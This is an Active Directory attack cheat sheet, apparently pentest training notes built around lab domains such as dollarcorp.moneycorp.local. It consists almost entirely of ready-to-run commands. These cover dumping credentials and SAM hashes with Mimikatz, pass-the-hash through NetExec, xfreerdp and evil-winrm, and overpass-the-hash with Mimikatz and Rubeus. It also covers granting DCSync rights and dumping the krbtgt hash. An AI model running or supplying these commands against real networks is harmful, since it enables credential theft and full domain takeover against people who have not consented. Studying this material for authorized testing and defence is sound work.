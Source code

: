 ## Extract Credentials
```powershell
# Dump credentials
Invoke-Mimikatz -Dumpcreds

# Dump from SAM
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'
```

## Pass-The-Hash
```bash
nxc smb [IP/CIDR] -u [user] -d [domain].local -H [hash]
nxc smb [IP/CIDR] -u [user] -d [domain].local -H [hash] --local-auth

# NetExec
# --local-auth: local authentication
# --sam: dump SAM hashes from target system
# --lsa: dump LSA secrets from target systems
# --shares: enumera los recursos compartidos en red

xfreerdp /v:[Target IP] /u:[user] /pth:[hash]

evil-winrm -i [Target IP] -u [user] -H [hash]
```

## OverPass-The-Hash
```powershell
# Mimikatz / start powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<key> /run:powershell.exe"'

# Rubeus / ask ticket
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
## DCSync
> To perform DCSync attack we need the following rights on the Domain Object:
>1) Replicating Directory Changes (DS-Replication-Get-Changes)
>2) Replicating Directory Changes All (DS-Replication-Get-Changes-All)
>3) Replicating Directory Changes In Filtered Set (DS-Replication-Get-Changes-In-Filtered-Set) (this one isn’t always needed but we can add it just in case)
```powershell
# Add rights for DCSync
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Needs domain admin privileges
Invoke-Mimikatz -Command '"lsadump::dcsync /user:[domain]\krbtgt"'
```
